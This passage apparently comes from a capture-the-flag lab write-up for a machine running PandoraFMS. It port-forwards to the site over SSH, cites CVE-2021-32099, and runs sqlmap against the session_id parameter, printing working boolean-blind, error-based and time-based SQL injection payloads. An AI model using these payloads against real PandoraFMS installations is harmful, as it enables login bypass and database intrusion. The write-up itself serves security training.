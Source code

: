 For this case, it is like this: \
`ssh -L 8080:localhost:80 daniel@10.10.11.136`

Now we can see the website in our browser.

![login](login.png) 
_Login PandoraFMS_

### Vulnerability

Searching for PandoraFMS I found this SQL injection vulnerability:
* [CVE-2021-32099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-32099): A SQL injection vulnerability in the pandora_console component of Artica Pandora FMS 742 allows an unauthenticated attacker to upgrade his unprivileged session via the /include/chart_generator.php session_id parameter, leading to a login bypass. 

Let's try this with sqlmap:

```
❯ sqlmap --url "http://localhost:8080/pandora_console/include/chart_generator.php?session_id=''"
        ___
       __H__
 ___ ___[)]_____ ___ ___ {1.6.5#stable}
|_ -| . [)] | .'| . |
|___|_ ["]_|_|_|__,| _|
      |_|V... |_| https://sqlmap.org


[*] starting @ 15:11:24 /2022-05-17/

...
GET parameter 'session_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 241 HTTP(s) requests:
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-9717' OR 2914=2914#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=''' OR (SELECT 5582 FROM(SELECT COUNT(*),CONCAT(0x717a7a6b71,(SELECT (ELT(5582=5582,1))),0x71716a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- qXuw

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=''' AND (SELECT 6429 FROM (SELECT(SLEEP(5)))KdsF)-- bkmF
---
...

[*] ending @ 15:18:00 /2022-05-17/
```
